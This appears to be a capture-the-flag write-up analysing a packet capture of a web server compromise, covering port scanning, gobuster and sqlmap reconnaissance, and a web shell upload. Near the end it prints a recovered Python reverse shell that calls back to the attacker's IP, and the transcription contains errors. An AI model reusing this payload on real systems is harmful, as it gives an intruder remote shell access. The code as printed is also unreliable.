 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


## What is the IP responsible for conducting the port scan activity?
Port scanning is done for TCP ports.
In order to see the port scan activity, we have to to go `Statistics > Conversations > TCP`.

![1](https://github.com/Knign/Write-ups/assets/110326359/b2b6e66d-cff1-4e92-bd5b-e6cecd25319d)

## Answer
```
10.251.96.4
```

&nbsp;

## What is the port range scanned by the suspicious host?
Let's sort `Port B` in an ascending order.

![2](https://github.com/Knign/Write-ups/assets/110326359/46478686-7f2b-431d-954d-583265b08bfb)

We can see that the last port scanned is 1024.
## Answer
```
1-1024
```

&nbsp;

## What is the type of port scan conducted?
We can filter the packets using the following filter:
```
ip.src == 10.251.96.4
```

![3](https://github.com/Knign/Write-ups/assets/110326359/77cde470-7352-4a42-b6bd-4fd59c6353a5)

The packets that we filtered are TCP packets with the SYN flag set.
## Answer
```
TCP SYN
```

&nbsp;

## Two more tools were used to perform reconnaissance against open ports, what were they?
The application/tool and its version can be identified using the `User-Agent` header.

Using the following filter we can filter out packets sent to the suspicious agent and the User-Agent header.
```
ip.dst == 10.251.96.5 && http.user_agent
```

![4](https://github.com/Knign/Write-ups/assets/110326359/bb134ae8-a7ae-4ef3-be43-4309552cdf5b)

As we can see the first tool is GoBuster which is enumerating all the directories.

In order to find the second tool, we have to scroll down until we find an encoded URI.

![5](https://github.com/Knign/Write-ups/assets/110326359/0c14f5fc-fa7f-49d4-97a0-53698f5f2e05)

The second tool is SQLmap.
## Answer
```
gobuster 3.0.1, sqlmap 1.4.7
```

&nbsp;

## What is the name of the php file through which the attacker uploaded a web shell?
The HTTP POST method is used to upload data to a server. We can filter for these packets using the following filter:
```
http.request.method == POST
```
Scrolling down, we can see a POST request made for a `upload.php` file.

![6](https://github.com/Knign/Write-ups/assets/110326359/84ad7616-2e61-4fc3-a0a6-7c82ebb75bdb)

The `Referer` header in the packet tells us the address from which a resource has been requested.
## Answer
```
editprofile.php
```

&nbsp;

## What is the name of the web shell that the attacker uploaded?
Let's follow the TCP stream for the same packet by going to `Follow > TCP Stream`.

![7](https://github.com/Knign/Write-ups/assets/110326359/a8682218-3dfe-4c5f-bd32-4e3c6149b2f7)

As we can see the `Content-Disposition` header is set to `form-data` with the `dbfunctions.php` as the filename.
## Answer
```
dbfunctions.php
```

&nbsp;

## What is the parameter used in the web shell for executing commands?
In the same TCP Stream we can see an if statement that takes `cmd` as the parameter. 

![7](https://github.com/Knign/Write-ups/assets/110326359/4cf973ca-bafa-477a-ac40-6da3eb105bbd)

## Answer
```
cmd
```

&nbsp;

## What is the first command executed by the attacker?
The commands to the uploaded file are sent using GET requests. We can use the following filter to separate out these packets.
```
http.request.method == GET
```

![8](https://github.com/Knign/Write-ups/assets/110326359/b15615e2-303a-4024-b751-af31201f3314)

There were three commands executed: `id`, `python code` and `whoami`.
## Answer
```
id
```

&nbsp;

## What is the type of shell connection the attacker obtains through command execution?
We need to open the packet with the python script.

![9](https://github.com/Knign/Write-ups/assets/110326359/653d5d08-6458-477f-94c7-6028d5538d95)

Once formatted, the script looks as follows:
```python
import socket, subprocess, os;
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect("10.251.96.4", 4422);
os.dup2(S.fileno(),0)
os.dup2(S.fileno(),0)
os.dup2(S.fileno(),0)
p = subprocess.call(["/bin/sh", "-i"])
```
It creates a socket object `s` and connects to the specified IP address ("10.251.96.4") and port (4422).

It then uses `subprocess.call` to execute the `/bin/sh` shell with the "-i" flag, which opens an interactive shell session, effectively allowing the user to control the remote server.

This is inline with the characteristics of a reverse shell.
## Answer
```
Reverse shell
```

&nbsp;

## What is the port he uses for the shell connection?
We saw that the reverse shell connects to port 4422.
## Answer
```
4422
```
